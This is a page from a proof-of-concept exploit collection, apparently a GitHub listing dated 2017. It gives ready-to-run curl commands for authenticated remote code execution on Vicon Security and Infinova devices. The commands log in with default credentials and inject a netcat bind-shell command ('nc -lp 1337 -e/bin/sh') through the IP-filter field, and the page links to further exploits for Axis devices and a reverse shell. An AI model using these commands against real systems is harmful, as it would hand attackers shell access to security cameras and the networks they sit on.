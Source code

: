 https://github.com/mcw0/PoC/blob/master/tiny-w3-mcw.c

Vicon Security RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"
  
// Add to 'IP Filter' and execute

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"
  
// Disable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"
  
// Remove from 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

Infinova RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"

// Add to 'IP Filter' and execute

curl --user admin:admin -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

// Disable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"

// Remove from 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

Note: Quite sure there is additional OEM's that share same.

Axis Communications
---
2017-12-01
Axis Communications MPQT/PACS Heap Overflow and Information Leakage
https://github.com/mcw0/PoC/blob/master/Axis_Communications_MPQT_PACS_Heap_Overflow_and_information_leakage.txt

Stunnel
---
2017-11-13
Reverse stunnel TLSv1 privacy shell
https://github.com/mcw0/PoC/blob/master/Reverse%20stunnel%20TLSv1%20privacy%20shell.txt
